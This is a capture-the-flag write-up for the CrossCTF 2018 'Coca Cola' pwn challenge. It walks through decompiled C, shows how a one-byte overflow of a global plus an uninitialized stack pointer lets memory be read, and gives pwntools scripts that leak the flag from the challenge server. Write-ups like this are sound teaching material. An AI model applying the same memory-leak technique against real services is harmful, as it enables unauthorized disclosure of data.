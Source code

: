# CrossCTF Finals 2018 : Coca Cola (Pwn)
### First Blood by : TinyBoxer

## Static Analysis
Running ```file cocacola``` gives:
```
cocacola: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76986b77e7025662406398594dd7c100f7e35c16, not stripped
```

Now on to the code ...
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int result; // eax
  __off_t v5; // rsi
  int fd; // [rsp+Ch] [rbp-B4h]
  struct stat stat_buf; // [rsp+20h] [rbp-A0h]
  unsigned __int64 v8; // [rsp+B8h] [rbp-8h]

  v8 = __readfsqword(0x28u); // these are canaries btw
  setvbuf(stdin, 0LL, 2, 0LL); //disallows buffering
  setvbuf(stdout, 0LL, 2, 0LL);//disallows buffering
  setvbuf(stderr, 0LL, 2, 0LL);//disallows buffering
  v3 = time(0LL);
  srand(v3); //initalize random seed
  fd = open("flag_page", 0, 384LL);
  memset(&stat_buf, 0, sizeof(stat_buf));
  if ( fstat(fd, &stat_buf) == -1 )
  {
    perror("Error getting the file size");
    result = -1;
  }
  else
  {
    v5 = stat_buf.st_size;
    mmap((void *)0x700B1000, stat_buf.st_size, 1, 1, fd, 0LL);
    printf("Do you want to flip the flag switch? (y/n) ");
    __isoc99_scanf((__int64)"%2s", (__int64)&flag);
    coca();
    cola();
    puts("Did you get it? If not try again.");
    result = 0;
  }
  return result;
}
```

The program opens a file called ```flag_page```. It clears out a ```stat_buf``` region of memory, then uses as a ```stat``` struct when ```fstat(fd, &stat_buf)``` is called. If ```fstat``` succeeds, ```mmap(0x700B100, stats_buf.size, 1, 1, fd, 0)``` is called.

Looking at [mmap documentation](http://man7.org/linux/man-pages/man2/mmap.2.html), we see that the two ```1```s that are in the earlier mmap call are for the ```prot``` and ```flags``` arguments. However, note that for the ```fd``` argument, we are passing ```flag_page```'s fd, intending to copy the file content into our allocated memory.

Next, it asks us about flipping flag switches (to which the answer is not ```y```, as we will see later). It reads in 2 bytes into the ```flag``` global variable then proceeds to call ```coca()``` and then ```cola()```

```c
unsigned __int64 coca()
{
  char buf; // [rsp+0h] [rbp-110h]
  unsigned __int64 v2; // [rsp+108h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(art);
  read(0, &buf, 0xFFuLL);
  if ( flag_denied == 0xC5u )
    read(0, &something, 1uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

We begin by printing some pretty art, after which we read in 255 bytes into memory. Checking the offsets, we see that there is no overflow here. Next, a global variable ```flag_denied``` is compared to ```0xc5```, and if it equal we read 1 byte into ```something```, another global variable.

```c
unsigned __int64 cola()
{
  int v0; // eax
  signed __int64 v2; // [rsp+0h] [rbp-60h]
  signed __int64 v3; // [rsp+8h] [rbp-58h]
  __int64 v4; // [rsp+10h] [rbp-50h]
  __int64 v5; // [rsp+18h] [rbp-48h]
  __int64 v6; // [rsp+20h] [rbp-40h]
  __int64 v7; // [rsp+28h] [rbp-38h]
  __int64 v8; // [rsp+30h] [rbp-30h]
  int v9; // [rsp+38h] [rbp-28h]
  __int16 v10; // [rsp+3Ch] [rbp-24h]
  const char *v11; // [rsp+48h] [rbp-18h]
  unsigned __int64 v12; // [rsp+58h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v0 = rand();
  v3 = v0
     - 10000000000LL
     * (((signed __int64)((unsigned __int128)(0x36F9BFB3AF7B757LL * (signed __int128)v0) >> 64) >> 27)
      - ((signed __int64)v0 >> 63))
     + 1;
  if ( something )
  {
    v2 = '\x137';
    strcpy(v4, "Limited Edition Coca Cola - Product of Mexico");
    v11 = (__int64)"Invalid internal error.";
  }
  puts("Here's your randomly generated coke can!");
  printf("Version: V.%lu\n", v2, v2);
  printf("Serial Number: %lu\n", v3);
  printf("Title: %s\n", &v4);
  if ( flag == 0x44 && v11 )
  {
    puts("Errors were found.");
    printf("Error: %s\n", v11);
  }
  return __readfsqword(0x28u) ^ v12;
}
```

In this method, we get a random number then do some math to get produce another value, then save it into ```v3```. If ```something``` is true, we initalize variables ```v2```, ```v4``` and ```v11```. Note that ```v11``` has a pointer to some string, not the string itself. Next, we print out some info, then check if the ```flag``` variable is ```0x44``` and if ```v11``` isn't ```NULL```, and print ```v11``` out in a ```print("Error: %s\n")```.

## The Solution
We see that if ```something``` is ```0``` (also called ```NULL```), when we print out info in ```cola()```, it prints out values that are uninitialized. Usually, these are values from the previous function call that is made at the same 'level' as the current function (e.g main->coca is on the same 'level' as main->cola but main->cola is not on the same 'level' as main->cola->puts). That function is ```coca()```, based on main()'s code. If we look at the ```read(0, &buf, 0xff)```, we see that it reads 0xff bytes into buf, which is at rbp-0x110. All the variables in ```cola()``` are from rbp-0x60 onwards, so we can see that we can control all the variables in ```cola``` except ```v0```, ```v3``` and ```v12```. Note that ```cola()``` prints out v11 in ```printf("Error: %s\n", v11)```, interpreting it as a string, as long as ```flag``` is ```0x44```. Thus, we can print out arbitrary memory since we can control v11! We can even print out the contents of ```flag_page``` by setting v11 to ```0x700B1000```

So far, we need to set ```flag``` to ```0x44```, ```something``` to 0, and we also need to set ```v11``` to ```0x700B10000``` (this can be done in ```coca()```'s ```read(0, &buf, 0xff)```)

Checking the program, we see that something is actually 1 by default
```c
.data:00000000002117F8 something       db    1
```
The only place we can change ```something``` is in ```coca()```:
```
if ( flag_denied == 0xC5u )
    read(0, &something, 1uLL);
```
and it seems we need to set ```flag_denied``` to ```0xc5``` first. However, ```flag_denied``` is ```0``` by default, and there is no other place where it is set:
```
.bss:00000000002117FD                 public flag
.bss:00000000002117FD flag            db    ? ;               ; DATA XREF: cola+12E↑o
.bss:00000000002117FD                                         ; main+14A↑o
.bss:00000000002117FE                 public flag_denied
.bss:00000000002117FE flag_denied     db    ? ;               ; DATA XREF: coca+42↑o
.bss:00000000002117FF                 db    ? ;
```
Hold on, dont we read 2 bytes into ```flag``` in ```main()```? Here it says that ```flag``` is only 1 byte (Note the addresses in left. My tool repeats addresses when delivering information to give .. more information). Thus, we have a overflow, and we can write 1 byte into ```flag_denied```.

So far, the plan is:
Set ```flag``` and ```flag_denied``` to 0x44 and 0xc5 respectively, by sending ```\x44\xc5``` to ```__isoc99_scanf((__int64)"%2s", (__int64)&flag);``` in ```main()```.

Then, set v11 (at rbp-0x18) to ```0x700B1000``` in ```read(0, &buf, 0xff)``` in ```coca()``` (buf is rbp-0x110, so we have 0x110-0x18 = 0xf8 characters of padding).
</br>Thus, we send ```'a'*0xf8+p64(0x700B1000+i*32)[:-1]```. The ```[:-1]``` is to leave out the last character, as p64() gives 8 bytes but we can only afford to send 7 bytes (0ff-0f8 = 7). 

Next, we send ```\x00``` to ```read(0, &something, 1)```

Putting it all together:
```python
from pwn import *
p = remote('ctf.pwn.sg', 4001)

p.sendafter("Do you want to flip the flag switch? (y/n) ", '\x44\xC5')
p.send('a'*0xf8+p64(0x700B1000)[:-1])
p.send('\x00')
p.recvuntil('Error: ')
print(p.recvline())
```

However ... we get 'CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC', which isn't the flag, obviously. But 'C' is the first letter of the flag that we expect. Perhaps the file has null bytes that force printf() to stop printing, and the each character of the flag is repeated as above, followed by a null byte? This, along with the ```puts("Did you get it? If not try again.");``` in ```main()``` imply that we have to repeat our exploit for each character in the flag (we also need to offset our value to v11 by 32*i, where i is the index of the character).
<br/>Since we don't know how long the flag is, we just repeat our exploit, for example, 50 times and print what we have so far if the program segfaults early.
```python
from pwn import *
 
s = ''
  
for i in range(50):
    try:
        p = remote('ctf.pwn.sg', 4001)
  
        p.sendafter("Do you want to flip the flag switch? (y/n) ", '\x44\xC5')
        p.send('a'*0xf8+p64(0x700B1000+i*32)[:-1])
        p.send('\x00')
        p.recvuntil('Error: ')
        s += p.recv(1)
    except:
        break
print(s)
```